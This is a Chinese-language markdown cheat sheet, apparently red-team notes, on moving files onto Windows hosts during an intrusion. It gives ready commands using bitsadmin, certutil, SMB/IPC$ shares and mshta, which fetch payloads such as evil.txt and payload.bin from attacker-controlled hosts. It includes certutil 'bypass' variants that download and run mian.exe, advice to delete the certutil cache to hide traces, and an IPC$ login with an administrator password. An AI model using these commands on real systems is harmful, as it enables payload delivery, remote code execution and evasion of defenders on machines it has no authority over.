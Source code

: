 windows 命令行下拷贝
```
copy \\IP\share\file.exe file.exe
```

## Bitsadmin

bitsadmin 是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。
```
bitsadmin /transfer n http://192.168.1.1/1/evil.txt d:\test\1.txt
```

## certutil

某些时候，服务器版本过低，无法使用 powershell，这时候可用 certutil 上线。

certutil 用于备份证书服务，支持 xp-win10 都支持。由于 certutil 下载文件都会留下缓存，所以一般都建议下载完文件后对缓存进行删除。

缓存目录为: `%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content`

```bash
# 下载
certutil -urlcache -split -f http://192.168.1.1/evil.txt test.php

# bypass技巧
certutil & Certutil -urlcache -split -f  https://xxx.com/test/payload.bin payload.bin
certutil & Certutil -urlcache -split -f  https://xxx.com/test/mian.exe mian.exe & mian.exe
certutil | Certutil -urlcache -split -f  https://xxx.com/test/payload.bin payload1.bin

# 删除缓存
certutil -urlcache -split -f http://192.168.1.1/evil.txt delete
```

## ipc$

```
# 建立远程 IPC 连接
net use \\192.168.1.1\ipc$ /user:administrator "abc123!"

# 复制远程文件到本地主机
copy \\192.168.1.1\c$\2.txt D:\test
```

## MSBuild

- [Use MSBuild To Do More](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

## Mshta.exe

Mshta.exe 运行 Microsoft HTML 应用程序主机，这是 Windows OS 实用程序，负责运行 HTA（HTML 应用程序）文件。可以用来运行 JavaScript 或 VBScript 的 HTML 文件。

目标端
```
mshta.exe http://192.168.1.1/test.hta
```
